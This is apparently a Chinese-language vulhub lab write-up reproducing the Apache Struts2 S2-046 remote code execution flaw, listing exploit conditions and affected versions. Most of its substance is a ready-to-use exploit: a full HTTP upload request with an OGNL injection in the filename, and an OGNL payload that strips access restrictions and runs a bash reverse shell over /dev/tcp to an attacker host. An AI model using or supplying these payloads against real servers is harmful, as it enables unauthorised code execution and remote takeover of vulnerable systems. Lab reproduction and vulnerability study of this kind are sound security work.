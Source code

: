 # Struts2_046_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			据漏洞提交者纰漏，S2-046 的利用条件有以下三个方面：

1、系统必须使用 Jakarta 插件，检查 Struts2 配置文件中是否有以下配置：<constant name =“struts.multipart.parser”value =“jakarta-stream”/>

2、上传文件的大小（由 Content-LSength 头指定）大于 Struts2 允许的最大大小（2GB）

3、文件名内容构造恶意的 OGNL 内容。

如果满足以上要求，Struts2 受影响版本将创建一个包含攻击者控制的异常文件名，使用 OGNL 值堆栈来定位错误消息，OGNL 值堆栈将插入任何 OGNL 变量（$ {}或％{}）作为 OGNL 表达式，然后实现任意代码执行。

​			影响版本

  		2.3.5 - 2.3.31  2.5 - 2.5.10 

### 0x02漏洞复现

#### payload1(RCE)：

POST /doUpload.action HTTP/1.1

Host: 192.168.15.130:8080

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------3562814778588877273276448293

Content-Length: 426

Origin: http://192.168.15.130:8080

Connection: close

Referer: http://192.168.15.130:8080/doUpload.action

Cookie: JSESSIONID=1v1yqdlc1zren12n0cs4wcfwgp

Upgrade-Insecure-Requests: 1



-----------------------------3562814778588877273276448293

Content-Disposition: form-data; name="upload"; filename=""%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x



反弹shell：

%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/***ip/post*** 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}



**filename是个注入点，然后对filename进行00截断**



​			**文件上传界面**

![S2_046_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_046_rce_1.jpg)

​			**Burpsuite改包重放，发现OGNL表达式被执行**

![S2_046_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_046_rce_2.jpg)

​			**00截断OGNL命令成功执行**

![S2_046_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_046_rce_3.jpg)





### 0x03参考资料

https://blog.csdn.net/weixin_44253823/article/details/103146814

